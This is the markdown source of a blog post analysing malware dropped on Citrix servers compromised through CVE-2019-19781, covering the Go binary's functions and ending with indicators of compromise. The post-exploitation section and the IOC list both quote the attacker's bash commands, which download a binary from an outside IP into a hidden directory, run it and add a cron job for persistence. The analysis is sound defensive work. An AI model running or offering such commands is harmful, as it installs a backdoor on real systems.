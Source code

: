 ```yaml
---
layout: post
title:  "Citrix CVE-2019-19781 malware analyses"
date:   2020-01-17 18:08:00 +0100
tag: malware
---
```

## Please read the [disclaimer]({{ site.baseurl }}{% link 9.disclamer.md %})


After the exploit release of CVE-2019-19781, malicious hackers took the opportunity to compromise Citrix instances that did not have the Citrix mitigation implemented. I had the chance to get my hands on some artefacts from a honey pot of a certain threat actor who compromised multiple servers [tweet link](https://twitter.com/michel228/status/1216771783656910849), in this post I will talk in details on how I reversed it using Cutter.


**Note: the secret key used by the malware was altered by m.**

## Post-exploitation:

We notice that the threat actor executed the following bash commands on the compromised system:

{% highlight bash linenos %}
kill -9 netscalerd; 
rm /var/tmp/netscalerd; 
mkdir /tmp/.init; 
curl -k https://95.179.163.186/wp-content/uploads/2018/09/6b37ab9644fff4d954615c93cc890039 -o /tmp/.init/httpd; 
chmod 744 /tmp/.init/httpd; 
echo "* * * * * /var/nstmp/.nscache/httpd" | crontab -; 
/tmp/.init/httpd &;
{% endhighlight %}

0. It kill all running instances of netscalerd
1. It delete the file **/var/tmp/netscalerd**
2. It create the directory **/tmp/.init**
3. It download a binary file from 95.179.163.186 through https request and save it in **/tmp/.init/httpd**
4. It create a cronjob to run **/var/nstmp/.nscache/httpd**, note: this file is created by the downloaded binary.


## Overview of the binary file:

Opening the binary with Cutter reveals that it's a golang compiled binary composed of multiple functions mainly:

0. **main**
1. **install_itself**
2. **remove_bds**
3. **doFile**
4. **install_cron**
5. **xrun**
6. **func1**

## Analyses

### main function:

Run [remove_bds function](#remove_bds-function) as a thread and check if the file **/var/nstmp/.nscache/httpd** , if it does not exist it run [install_itself function](#install_itself-function).

![call_removedbs_install_itself](/assets/img/citrix_malware/call_removedbs_install_itself.png)

if the current process CWD do not contain the string **.nscache/httpd** it start **/var/nstmp/.nscache/httpd** as new process then it exit, else it run 2 other threads: 

0. [xrun function](#xrun-function)
1. [install_cron function](#install_cron-function)

![xrun_thread_start_process](/assets/img/citrix_malware/xrun_thread_start_process.png)


### install_itself function:

It create a directory **/var/nstmp/.nscache**

![install_itself_mkdir](/assets/img/citrix_malware/install_itself_mkdir.png)

check if the file **/var/nstmp/.nscache/httpd** already exist 

![install_itself_check_file_exist](/assets/img/citrix_malware/install_itself_check_file_exist.png)

if not, it copy it self to **/var/nstmp/.nscache/httpd**


### remove_bds function:

It continuously read the directory **/netscaler/portal/scripts**

![remove_dbs_readdir](/assets/img/citrix_malware/remove_dbs_readdir.png)

then loops through all the files contained in that directory, by checking if they were created in the last **14 days**

![remove_bds_check_14_days](/assets/img/citrix_malware/remove_bds_check_14_days.png)

if yes, it proceed to [doFile function](#dofile-function)

![remove_dbs_dofile](/assets/img/citrix_malware/remove_dbs_dofile.png)


### doFile function:

It first check if the file name contains a special 32 bytes long string (secret key)

![dofile_check_name](/assets/img/citrix_malware/dofile_check_name.png)

In the case where it does not, it continue by checking if the content of the file contains the strings **block** or **BLOCK** if it does, the file will be deleted unless it also contains the **secret key**.

![dofile_block_key_string](/assets/img/citrix_malware/dofile_block_key_string.png)



### install_cron function:

Is for some reasons ... empty.

![install_cron](/assets/img/citrix_malware/install_cron.png)


### xrun function:

Start a UDP listener on **\*:18634** then it keep listening on that port, without using the data received.

![xrun_resolveudp](/assets/img/citrix_malware/xrun_resolveudp.png)


### func1 function:

It continuously scan the directory **/netscaler/portal/templates** for **\*.xml** files, then call [doFile function](#dofile-function).
In other words every xml file that contain the string **block** or **BLOCK** will be deleted unless the content/file name contain the **secret key**.

![func1_delete_files_if_block_key](/assets/img/citrix_malware/func1_delete_files_if_block_key.png)


## Conclusion:

From my understanding, the author's goal was to stop other malicious hackers from exploiting and gaining access to the Citrix instance by deleting every uploaded xml file, while retaining access to himself, indeed with that 32 bytes long string which serves as a **secret key**, only the author of this malware can gain access to the compromised server.


## Collected IOCs:


0. **Filenames**:
    * /tmp/.init/httpd
    * /var/nstmp/.nscache/httpd

1. **Directories**
    * /var/nstmp/.nscache
    * /tmp/.init

2. **IPs**
    * 95.179.163.186

3. **UDP listener**
    * \*.18634

4. **Bash history**
    * kill -9 netscalerd; 
    * rm /var/tmp/netscalerd; 
    * mkdir /tmp/.init; 
    * curl -k https://95.179.163.186/wp-content/uploads/2018/09/6b37ab9644fff4d954615c93cc890039 -o /tmp/.init/httpd; 
    * chmod 744 /tmp/.init/httpd; 
    * echo "\* \* \* \* \* /var/nstmp/.nscache/httpd" \| crontab -; 
    * /tmp/.init/httpd &;